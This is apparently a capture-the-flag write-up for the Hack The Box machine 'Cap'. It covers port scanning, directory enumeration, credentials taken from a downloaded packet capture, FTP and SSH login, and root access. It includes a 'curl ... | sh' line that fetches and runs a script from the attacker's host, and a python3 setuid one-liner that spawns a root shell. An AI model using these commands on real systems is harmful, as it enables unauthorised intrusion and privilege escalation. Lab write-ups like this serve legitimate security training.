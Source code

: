 # Cap Writeup
<br>

## NMAP

```bash
nmap -sC -sV -p- cap.htb -oN cap_nmap
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-20 01:06 EDT
Nmap scan report for cap.htb (10.10.10.245)
Host is up (0.026s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.67 seconds
```

FTP anonymous access is NOT allowed

```bash
┌──(netcur10s㉿lab-kali)-[~]
└─$ ftp cap.htb 
Connected to cap.htb.
220 (vsFTPd 3.0.3)
Name (cap.htb:netcur10s): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> 

```

SSH password authentication allowed

```bash
┌──(netcur10s㉿lab-kali)-[~]
└─$ ssh root@cap.htb
The authenticity of host 'cap.htb (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'cap.htb' (ED25519) to the list of known hosts.
root@cap.htb's password: 
```

## GoBuster

Ran Gobuster to see if any directories of interest

```bash
┌──(netcur10s㉿lab-kali)-[~/HTB/Cap]
└─$ gobuster dir -u cap.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                                    
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cap.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/data                 (Status: 302) [Size: 208] [--> http://cap.htb/]
/ip                   (Status: 200) [Size: 17465]
/netstat              (Status: 200) [Size: 32741]
/capture              (Status: 302) [Size: 222] [--> http://cap.htb/data/13]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

Checked out the redirect address [http://cap.htb/data/13](http://cap.htb/data/13) which has a download button

![image.png](../images/cap/image.png)

Downloaded the file seems to be a pcap file 0.pcap

Searching through the pcap file for any good information

Able to find user credentials

![image1.png](../images/cap/image1.png)

Credentials found nathan:Buck3tH4TF0RM3!

## FTP(21)

Attempted to log into FTP under nathan and using this password Buck3tH4TF0RM3!

```bash
┌──(netcur10s㉿lab-kali)-[~]
└─$ ftp nathan@cap.htb
Connected to cap.htb.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||22860|)
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 Aug 21 00:21 snap
-r--------    1 1001     1001           33 Aug 20 19:14 user.txt
226 Directory send OK.
ftp> 
```

## SSH(22)

These credential also work using SSH

```bash
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
nathan@cap:~$ 
```

Checking to see if curl & python are installed

```bash
nathan@cap:~$ which curl python3
/usr/bin/curl
/usr/bin/python3
```

Performing linpeas scan

```bash
nathan@cap:~$ curl http://10.10.14.61:80/linpeas.sh | sh
```

Linpeash scanned and found potential pkexec exploit and a bin file vulnerability

Attempted to execute > Successful!

```bash
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
# 
```

Changed to root directory 

Listed current directory with `ls` command and used `cat` to print out to screen

```bash
# cd /root
# ls
root.txt  snap
# cat root.txt
```
